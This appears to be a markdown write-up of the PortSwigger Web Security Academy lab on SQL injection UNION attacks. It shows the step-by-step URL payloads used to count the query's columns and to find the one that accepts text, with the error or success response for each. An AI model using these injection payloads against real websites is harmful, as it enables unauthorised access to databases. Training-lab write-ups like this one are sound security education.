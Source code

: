 ```yaml
---
title: 'Lab: SQL injection UNION attack, finding a column containing text'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, finding a column containing text
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. 
* Hint: The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

## Exp
1. Determine how many columns it has
You can use the technique from previous question.
Payload: `?category=' UNION SELECT NULL,NULL,NULL--`
2. Start to guess which column contains text
For example: 
`?category=Accessories' UNION (SELECT 'a', NULL, NULL)--` $\to$ Internal Server Error
`?category=Accessories' UNION (SELECT NULL, 'a', NULL)--` $\to$ <font color="FF0000">No Error</font>
`?category=Accessories' UNION (SELECT NULL, NULL, 'a')--` $\to$ Internal Server Error

    **Then we can consider which column is text-based string**

    Payload: `?category=Accessories' UNION (SELECT NULL, 'DoimDt', NULL)--`
    :::spoiler Success Screenshot
    ![](https://imgur.com/LtSoc2E.png)
    :::

## Reference